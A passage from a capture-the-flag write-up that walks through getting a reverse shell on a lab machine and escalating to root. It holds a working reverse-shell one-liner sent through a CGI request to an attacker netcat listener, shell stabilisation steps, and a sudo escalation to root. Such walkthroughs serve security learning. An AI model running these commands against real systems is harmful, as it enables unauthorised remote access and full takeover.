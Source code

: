 Starting a listener.

```console
$ nc -lvnp 443
```

Sending the reverse shell payload.

```console
$ curl -k -s 'https://10.10.230.27:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN' --data-urlencode cmd='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.63.57 443 >/tmp/f'
```

Stabilizing the shell.

```console
$ nc -lvnp 443        
listening on [any] 443 ...
connect to [10.11.63.57] from (UNKNOWN) [10.10.230.27] 54144
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<in$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ubuntu:/usr/lib/cgi-bin$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                               
$ stty raw -echo; fg

[1]  + continued  nc -lvnp 443

www-data@ubuntu:/usr/lib/cgi-bin$ stty rows 26 cols 127
www-data@ubuntu:/usr/lib/cgi-bin$
```

## Shell as root

### Sudo privileges

`www-data` has full `sudo` privileges.

```console
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

Spawning a shell as root using `sudo` and reading the root flag.

```console
www-data@ubuntu:/usr/lib/cgi-bin$ sudo su -
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# wc -c root.txt
33 root.txt
```
